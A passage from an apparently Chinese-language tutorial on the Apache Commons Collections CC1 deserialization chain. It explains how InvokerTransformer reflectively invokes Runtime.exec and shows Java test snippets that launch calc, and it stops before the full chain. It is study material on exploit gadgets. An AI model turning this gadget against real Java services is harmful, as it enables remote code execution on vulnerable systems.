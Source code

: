 (1) 作用：  
  
你输入一个对象，它会通过反射的方式调用你输入对象的其中一个方法（方法名，形参列表和实参列表都是你自己可以控制的）。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCwudE6f3rX6fB5HDAo2ljfib7gvNfw5O3JYDLuCEQzfoXL84aWNDcicAAmXEDYRw5Ia9tMfoS7nJJg/640?wx_fmt=png&from=appmsg "")  
  
接下来我们看一下参数iMethodName是从哪里传入的？  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCwudE6f3rX6fB5HDAo2ljfyiaiaFV47CkYKFdbmcVdRicxm2YVYCncAksWJvZSOy9M6wgBxa30iaRmEA/640?wx_fmt=png&from=appmsg "")  
  
我们可以看到这个参数在InvokerTransformer类初始化构造的时候就被传了进来，并且对其进行了赋值，所以这里不管是执行哪个对象的方法都是可控的。那么我们就可以试着让它去执行一个危险方法。  
  
(2) 正常情况下（没有使用InvokerTransformer类）执行一个危险方法如下：  
```
import org.junit.Test;
import java.io.IOException;public class CC1Test1 {
    
    @Test
    public void invokeExec() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCwudE6f3rX6fB5HDAo2ljf3glxeSDAWNIKPoqdw9IFqrVxCsXvUIKn3cZ5Aouq25xkxHd1gNB78w/640?wx_fmt=png&from=appmsg "")  
  
(3) 使用  
InvokerTransformer类执行一个危险方法如下：  
```
import org.apache.commons.collections.functors.InvokerTransformer;
import org.junit.Test;
import java.io.IOException;
public class CC1Test1 {    
    @Test
    
    public void invokeExec() throws IOException { 
        //Runtime.getRuntime().exec("calc");
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",
            new Class[] {String.class},
            new Object[] {"calc"}
        );

        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCwudE6f3rX6fB5HDAo2ljfQZjByHpaicKZrjuJZxTcSDDwYSnicADMljp6RdoacbclqwYSlzsCsQjg/640?wx_fmt=png&from=appmsg "")  
  
我们new一个InvokerTransformer对象，要传入的参数分别是方法的名字和形参列表和实参列表。那么这里方法的名字就是exec，然后形参列表是一个Class数组（new一个Class数组），然后传入的是一个字符串。实参则就是我们具体执行的什么命令，这里是打开计算器。  
  
然后接来下就是我们对哪个对象进行调用，这里我们是对Runtime.getRuntime()对象进行调用。  
  
到这里我们就把危险方法往前推进了一步找到了一个中间类，所以我们的调用流程就变成了如下，  
  